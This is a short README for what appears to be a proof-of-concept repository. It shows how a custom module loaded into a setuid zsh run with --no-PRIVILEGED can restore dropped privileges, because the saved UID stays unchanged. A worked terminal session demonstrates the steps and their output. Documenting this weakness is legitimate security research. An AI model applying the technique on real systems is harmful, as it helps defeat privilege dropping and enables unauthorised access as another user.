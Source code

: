 # zsh-privileged-upgrade
Restore privileges dropped by zsh in --no-PRIVILEGED mode

## Concept
In zsh, when the PRIVILEGED option is turned off, zsh will "[cause] the effective user and group IDs to be set to the real user and group IDs." However, zsh doesn't change the saved uid. Therefore, the user can load a module that restores the euid to what is was before zsh dropped privileges.

## Example
```bash
bash > sudo useradd --no-create-home eric
bash > cp /usr/bin/zsh test-zsh
bash > sudo chown eric:eric test-zsh
bash > sudo chmod +s test-zsh
bash > ls -l test-zsh
-rwsr-sr-x 1 eric eric 865456 Nov 30 15:15 test-zsh
bash > ./test-zsh
zsh > id
uid=1000(sam) gid=1000(sam) euid=1001(eric) egid=1001(eric) groups=1001(eric),3(sys),150(wireshark),967(docker),987(uucp),998(wheel),1000(sam)
zsh > exit
bash > ./test-zsh --no-PRIVILEGED
zsh > id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
zsh > cat /proc/$$/status | grep Uid
Uid:	1000	1000	1001	1000
zsh > ls -l setuid.so
-rwxr-xr-x 1 sam sam 14384 Nov 30 14:48 setuid.so
zsh > MODULE_PATH=. zmodload setuid
module loaded
zsh > setuid 1001
calling setuid with user id 1001
success
zsh > id
uid=1000(sam) gid=1000(sam) euid=1001(eric) groups=1000(sam),3(sys),150(wireshark),967(docker),987(uucp),998(wheel)
```

## Compiling setuid.so
Copy setuid.c and setuid.mdd into zsh-repo/Src/Modules/, then build zsh as normal. `setuid.so` will be built to zsh-repo/Src/Modules/setuid.so.
